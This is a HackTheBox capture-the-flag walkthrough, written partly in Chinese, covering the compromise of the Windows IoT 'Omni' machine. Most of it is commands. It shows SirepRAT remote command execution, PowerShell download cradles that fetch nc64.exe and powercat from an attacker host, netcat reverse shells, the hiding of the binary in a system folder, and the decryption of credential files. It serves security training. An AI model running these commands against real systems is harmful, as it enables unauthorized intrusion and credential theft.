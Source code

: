 ```yaml
---
layout: post
title:  "HackTheBox >_ Omni_204"
description: walkthrough
category: HackTheBox
---
```


# Omni_204


![]({{ site.url }}/assets/20210110100820058_816768569.png)

`rustscan 10.10.10.204 -b 924 -t 1500 --no-nmap`

![]({{ site.url }}/assets/2020-11-08-08-44-49.png)

`sudo nmap -p135,8080,29817,29819,29820 -sV -oX sploit.xml 10.10.10.204; searchsploit --nmap sploit.xml`

![]({{ site.url }}/assets/2020-11-08-08-58-07.png)

![]({{ site.url }}/assets/2020-11-08-08-58-59.png)

`sudo nmap -T4 -v -Pn --script=vuln -p135,8080,29817,29819,29820 10.10.10.204`

## 8080

![]({{ site.url }}/assets/2020-11-08-08-49-35.png)

We got `windows device portal`, do some search to find a defult credential

![]({{ site.url }}/assets/2020-11-08-08-51-23.png)

`Administrator:p@ssw0rd`

But this doesn't work.

Search for exploit

![]({{ site.url }}/assets/2020-11-08-09-18-53.png)

https://github.com/SafeBreach-Labs/SirepRAT

![]({{ site.url }}/assets/2020-11-08-09-28-11.png)

`git clone https://github.com/SafeBreach-Labs/SirepRAT.git`

`pip2 install -r requirements.txt`

`python -m SimpleHTTPServer 8080`

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c dir"`

![]({{ site.url }}/assets/2020-11-08-09-47-44.png)

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c net user" --v`

![]({{ site.url }}/assets/2020-11-08-09-49-55.png)

We can run cmd now

try some commend to translate file to target, but didn't work.

`certutil -urlcache -split -f http://10.10.14.22:8080/nc.exe`

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell -NoProfile -ExecutionPolicy unrestricted -Command IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.22:8080/powercat.ps1');powercat -c 10.10.14.22 -p 1337 -ep`



`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\temp\\nc.exe -Uri http://10.10.14.22:8080/nc.exe" --v`

![]({{ site.url }}/assets/2020-11-08-10-30-35.png)

![]({{ site.url }}/assets/2020-11-08-10-32-30.png)

传输成功

now run nc to connect black to kali

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\temp\\nc.exe 10.10.14.22 1337 -e cmd.exe" --v`

![]({{ site.url }}/assets/2020-11-08-10-35-12.png)

版本不正确，上传64位nc并重复上面的步骤

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\temp\\nc64.exe -Uri http://10.10.14.22:8080/nc64.exe" --v`

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\temp\\nc64.exe 10.10.14.22 1337 -e cmd.exe" --v`

获得shell

![]({{ site.url }}/assets/2020-11-08-10-53-04.png)

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\temp\\winPEAS.exe -Uri http://10.10.14.22:8080/winPEAS.exe" --v`

![]({{ site.url }}/assets/2020-11-08-11-14-07.png)

`powershell Invoke-Webrequest -OutFile C:\temp\winPEAS.exe -Uri http://10.10.14.22:8080/winPEAS.exe`


![]({{ site.url }}/assets/2020-11-08-11-57-25.png)
检查文件系统
`Get-PsDrive -PsProvider FileSystem`

发现还有其他分区

![](_v_images/20201128101521539_23549.png)

![](_v_images/20201128102301475_11825.png)

![](_v_images/20201128102224790_31070.png)

`app:mesh5143`
`administrator:_1nt3rn37ofTh1nGz`

![]({{ site.url }}/assets/2020-11-08-11-19-25.png)

![]({{ site.url }}/assets/2020-11-08-11-20-27.png)

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -Uri http://10.10.14.22:8080/nc64.exe" --v`

C:\Windows\System32\spool\drivers\color\nc64.exe

C:\Windows\System32\spool\drivers\color\nc64.exe 10.10.14.22 1338 -e powershell.exe


![]({{ site.url }}/assets/2020-11-08-11-37-57.png)


![]({{ site.url }}/assets/2020-11-08-11-38-46.png)

![]({{ site.url }}/assets/2020-11-08-11-43-34.png)

```powershell
$credential = Import-CliXml -Path U:\Users\app\user.txt
$credential.GetNetworkCredential().Password
```

![]({{ site.url }}/assets/2020-11-08-11-45-53.png)


这个页面是没有注销的，需要关闭浏览器即可重新使用另外的凭证登陆

`administrator:_1nt3rn37ofTh1nGz`

`C:\Windows\System32\spool\drivers\color\nc64.exe 10.10.14.22 1339 -e powershell.exe`

```powershell
$credential = Import-CliXml -Path U:\Users\administrator\root.txt
$credential.GetNetworkCredential().Password
```
![]({{ site.url }}/assets/2020-11-08-11-54-10.png)